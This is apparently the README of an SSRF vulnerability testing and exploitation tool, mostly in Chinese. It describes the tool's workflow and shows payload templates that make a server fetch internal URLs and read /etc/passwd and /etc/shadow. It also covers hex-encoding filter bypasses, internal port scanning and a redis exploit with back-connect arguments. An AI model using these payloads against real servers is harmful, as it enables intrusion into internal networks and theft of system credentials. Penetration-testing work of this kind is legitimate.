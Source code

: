 # SSRF_ex
SSRF漏洞测试、利用 SSRF vulnerability testing and utilization

SSRF
[+] 服务端请求伪造，当作跳板攻击内网服务
[+] 扫描内部网络、服务
[+] 访问本机敏感文件
[+] 向特定端口发送数据包、payload

```
.
├── exploit
│   └── redis.py
├── lib
│   ├── check_bypass.py
│   ├── check.py
│   ├── common.py
│   ├── config.py
│   ├── scan.py
│   ├── test
│   └── xmltest.xml
├── plugin
│   └── weblogic.py
├── result
│   ├── 192.168.1.107
│   │   ├── file_content.log
│   │   ├── host_port.log
│   │   └── test.log
│   └── 192.168.1.109
│       ├── file_content.log
│       ├── host_port.log
│       └── test.log
├── ssrfex.py


>> ssrfex.py -u http://192.168.1.107/ssrf.php -d url 
```
流程：
```
缓存、存活判断--SSRF漏洞路径判断--简单测试--简单规则绕过--子网、端口扫描
                                  |                       |
                                  |                       |
                              file协议利用           端口Exploit利用
```
### 目标路径判断是否为已知存在漏洞服务
例如：   
```
#ssrf_list = [{'server':'weblogic','path':'/uddiexplorer/SearchPublicRegistries.jsp/uddiexplorer/SearchPublicRegistries.jsp'},{'server':'Splash','path':'/render.html'},{'server':'Typecho','path':'/action/xmlrpc'}]

plugin/weblogic.py -u 192.168.1.1 -p 192.168.1
```

### 简单测试
```
payload_http_inner = "{url}?{query}=http://127.0.0.1".format(url=target,query=parameter)
payload_file = "{url}?{query}=file:///etc/passwd".format(url=target,query=parameter)
payload_dict = "{url}?{query}=dict://127.0.0.1:22".format(url=target,query=parameter)
```
测试协议，通过响应时间、服务指纹、页面返回内容、~静态文件hash值~判断

### file协议读取特定文件
```
['/etc/rsyslog.conf','/etc/syslog.conf','/etc/passwd','/etc/shadow','/etc/group','/etc/anacrontab','/etc/networks','/etc/hosts']
```

### 简单规则绕过
lib/testxml.xml规则和payload
利用url解析，对ip、host等16进制变换以及添加符号绕过

### 端口扫描
```
[22, 80, 445, 3306, 6379, 7001, 8080, 11211]
```
### 内网存活扫描
dict协议，根据服务内容的hash值~时间~

### 端口扫描攻击特定端口
```
6379 redis
exploit/redis.py -u [host and parameter] -i [redis_ip] -bip [bip] -bport [bport]
```

### 待更新
* plugin已知SSRF漏洞插件更新：如：Wordpress Discuz Typecho
* SSRF攻击exploit利用：Jobss Mysql struts tomact memcache php-fpm等
* 规则规划
